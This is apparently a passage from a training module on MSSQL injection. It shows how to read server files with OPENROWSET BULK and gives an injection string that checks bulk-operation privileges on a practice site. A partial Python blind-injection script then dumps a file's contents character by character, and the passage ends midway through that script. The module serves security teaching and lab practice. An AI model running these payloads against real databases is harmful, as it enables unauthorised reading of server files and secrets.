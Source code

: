 If we have the correct permissions, we can `read files` via an `(MS)SQL injection`. To do so we can use the [OPENROWSET](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql?view=sql-server-ver16) function with a `bulk` operation.

![](ylTJEtdyjdgI.png)

The syntax looks like this. `SINGLE_CLOB` means the input will be stored as a `varchar`, other options are `SINGLE_BLOB` which stores data as `varbinary`, and `SINGLE_NCLOB` which uses `nvarchar`.

```sql
-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

```

## Checking Permissions

All users can use `OPENROWSET`, but using `BULK` operations requires special privileges, specifically either `ADMINISTER BULK OPERATIONS` or `ADMINISTER DATABASE BULK OPERATIONS`. We can check if our user has these with the following query:

```sql
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';

```

We'll be using `Aunt Maria's Donuts` again to practice in this section. We can run the query above like this:

```sql
maria' AND (SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS')>0;--

```

Which should return the following response from the server:

![](LOW1Y3iZqmzv.png)

## Reading via Boolean-based

Having confirmed that we have the necessary permissions, we can adapt the script we wrote in that section to dump file contents out by changing the queries being sent to the oracle.

```python
file_path = 'C:\\Windows\\System32\\flag.txt' # Target file

# Get the length of the file contents
length = 1
while not oracle(f"(SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x)={length}"):
    length += 1
print(f"[*] File length = {length}")

# Dump the file's contents
print("[*] File = ", end='')
for i in range(1, length + 1):
    low = 0
    high = 127
    while low <= high:
        mid = (low + high) // 2
        if oracle(f"(SELECT ASCII(SUBSTRING(BulkColumn,{i},1)) FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x) BETWEEN {low} AND {mid}"):
```